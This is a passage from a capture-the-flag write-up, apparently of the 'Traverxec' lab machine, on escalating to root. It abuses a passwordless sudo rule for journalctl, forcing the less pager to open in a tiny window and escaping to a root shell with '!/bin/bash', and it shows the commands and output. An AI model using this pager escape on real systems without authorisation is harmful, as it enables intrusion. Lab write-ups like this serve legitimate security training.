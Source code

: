 The interesting part is the last line. This mean that we have the `sudo`
permissions as `root` with no password (as it is in a script).
The `sudo` rights are well designed, we cannot change any argument in the line.
If we look at
[gtfobins for journalctl](https://gtfobins.github.io/gtfobins/journalctl/) we
see that the interesting part is to get the pager (which by default is `less`,
which allow to run bash command with `!`).

As the command specifiecaly allow us to only have 5 lines from the `journalctl`
output what we need to do is to get a tiny tiny windows to trigger the pager.

![Tiny window in order to trigger the pager](/media/2020.04/traverxec_3.png)

From `less` we are able to run a bash command as `/bin/bash/`.

![Running a bash command from less](/media/2020.04/traverxec_4.png)

We then get a root shell and are able to get the flag.

    :::text
    david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    -- Logs begin at Wed 2019-11-27 05:44:37 EST, end at Wed 2019-11-27 06:15:38 EST
    Nov 27 06:11:16 traverxec crontab[4166]: (www-data) LIST (www-data)
    Nov 27 06:12:32 traverxec sudo[4554]: pam_unix(sudo:auth): authentication failur
    ...skipping...
    Nov 27 06:12:41 traverxec sudo[4554]: www-data : user NOT in sudoers ; TTY=pts/1
    Nov 27 06:13:05 traverxec su[4567]: pam_unix(su:auth): authentication failure; l
    Nov 27 06:13:07 traverxec su[4567]: FAILED SU (to david) www-data on pts/6
    !/bin/bash
    root@traverxec:/home/david# cat /root/root.txt
    9aa36a6<redacted>

# Wrapping up

This box is quit easy. The revershell is quit quick. The privilege escalation to
user might a pain as there is some rabbit holes (like this `Nowonly4me`
password) and the root part is quit CTFish but quick.

